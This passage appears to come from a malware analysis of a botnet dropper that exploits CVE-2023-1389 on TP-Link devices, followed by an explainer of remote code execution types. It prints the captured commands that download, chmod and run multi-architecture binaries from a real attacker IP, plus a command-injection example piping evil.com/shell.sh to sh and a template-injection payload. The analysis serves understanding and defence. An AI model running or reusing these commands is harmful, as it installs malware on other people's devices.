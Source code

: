 ```shell
cd /tmp; ftpget 31.59.40.187 a5le1 a5le1; chmod 777 a5le1;./a5le1 tplink; rm a5le1
cd /tmp; ftpget 31.59.40.187 a7le1 a7le1; chmod 777 a7le1; ./a7le1 tplink; rm a7le1
cd /tmp; ftpget 31.59.40.187 ppc1 ppc1; chmod 777 ppc1; ./ppc1 tplink; rm ppc1
cd /tmp; ftpget 31.59.40.187 xle1 xle1; chmod 777 xle1; ./xle1 tplink; rm xle1
cd /tmp; ftpget 31.59.40.187 xale1 xale1; chmod 777 xale1; ./xale1 tplink; rm xale1
```

The script repeatedly executes the following logic:
```shell
cd /tmp
wget http://31.59.40.187/j/mle1
chmod 777 mle1
./mle1 tplink
rm mle1
```

`mle1, mbe1, aale1, a5le1, a7le1, ppc1, xle1, xale1` these filenames likely represent copies of the same malicious program built for different CPU architectures, prepared for various embedded devices or server environments, ensuring infection of as many target devices as possible.


The comment above indicates that this is an *RCE attack*, and it includes vulnerability information *CVE-2023-1389*.

::: details RCE攻击介绍

RCE (Remote Code Execution) attack is a type of attack where an attacker can remotely execute arbitrary code on a victim's device or system. RCE is one of the most serious network security vulnerabilities, typically meaning:

>The attacker only needs to send a specially crafted request to control the behavior of the target server, device, or operating system.

**Common Types of RCE Attack Patterns**

1. Command Injection
   When user input is concatenated with Shell commands without proper escaping, causing commands entered by attackers to be directly executed, for example:
   ```http request
   GET /api?name=abc;wget http://evil.com/shell.sh|sh HTTP/1.1
   ```

2. Insecure Deserialization
   Deserializing user-input objects, where attackers construct malicious payloads to trigger execution logic, for example:
   ```java
   ObjectInputStream.readObject();  // 读取了攻击者发送的恶意对象
   ```

3. Template Injection
   When template engines allow script execution, attackers can trigger arbitrary code execution by injecting expressions, for example:
   ```http request
   ${new java.lang.ProcessBuilder("calc").start()}
   ```
4. Path Traversal + WebShell Upload
   Attackers upload malicious scripts (such as .php files) and access them for execution through means like path traversal.
